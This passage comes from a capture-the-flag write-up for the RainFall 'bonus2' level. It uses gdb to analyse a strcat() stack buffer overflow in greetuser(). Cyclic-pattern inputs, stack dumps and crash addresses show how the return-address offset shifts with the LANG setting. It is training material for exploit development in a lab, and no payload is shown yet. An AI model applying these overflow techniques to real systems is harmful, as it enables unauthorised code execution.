 **greetuser() Vulnerability Analysis:**
- **Local buffer**: 72 bytes allocated (EBP-72 to EBP-0)
- **Language-dependent prefixes**: Different greeting lengths
- **Unsafe concatenation**: strcat() without size validation
- **Buffer overflow potential**: Combined greeting + user input can exceed buffer

## Understanding the Buffer Overflow Vulnerability

### 7. Stack Layout Analysis
```bash
(gdb) break *greetuser+147  # At strcat call
(gdb) run hello world

# Examining stack layout
(gdb) info registers ebp
ebp            0xbffff678       0xbffff678

(gdb) x/20wx 0xbffff678-72  # Local buffer area
0xbffff630:     0x64656f47      0x64696d65      0x21676164      0xb7e50020
0xbffff640:     0xbffffeeb      0xb7e338f8      0x00000002      0x00001c2a
0xbffff650:     0xbaa16a00      0xbffff6d0      0x00000000      0xbffff71c
0xbffff660:     0xbffff738      0xb7ff26b0      0xbffffeeb      0xb7f5d780
0xbffff670:     0xbffffeee      0xb7fff918      0xbffff738      0x08048630  
#               saved_ebp       return_addr     parameter       argc
```

**Stack Frame Layout:**
```
greetuser() Stack Frame:
EBP-72: Local buffer start (strcat destination)
EBP-4:  Buffer end / local variables
EBP+0:  Saved EBP
EBP+4:  Return address ← CORRUPTION TARGET!
EBP+8:  Parameter (user input from main)
```

### 8. Overflow Offset Calculation by Language
```bash
# Testing overflow with pattern to find exact offsets

# English/Default (LANG not fi/nl)
bonus2@RainFall:~$ unset LANG
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A"*40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()  # Crash but not clear pattern - insufficient overflow

# Finnish (LANG=fi)  
bonus2@RainFall:~$ export LANG=fi
(gdb) run $(python -c 'print "A"*40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab

Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()  # "a6A" - pattern match at offset 18

# Dutch (LANG=nl)
bonus2@RainFall:~$ export LANG=nl  
(gdb) run $(python -c 'print "A"*40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()  # "7a8" - pattern match at offset 23
```